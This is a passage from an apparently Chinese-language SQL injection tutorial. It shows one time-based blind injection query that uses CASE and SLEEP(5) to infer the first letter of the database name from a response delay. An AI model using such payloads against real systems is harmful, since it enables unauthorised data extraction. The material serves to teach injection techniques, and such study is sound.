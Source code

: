![image-20250903183853600](images/image-20250903183853600.png)

------

### 6. 利用条件差异制造时间差

```sql
SELECT * FROM `users`
WHERE id = 1
  AND (CASE WHEN (ASCII(SUBSTRING(database(),1,1)) = ASCII('s')) 
            THEN SLEEP(5) ELSE 1 END);
```

👉 效果：如果当前数据库首字母 ASCII = s的ascii码 → 延迟 5 秒，否则立即返回。

![image-20250903184250084](images/image-20250903184250084.png)
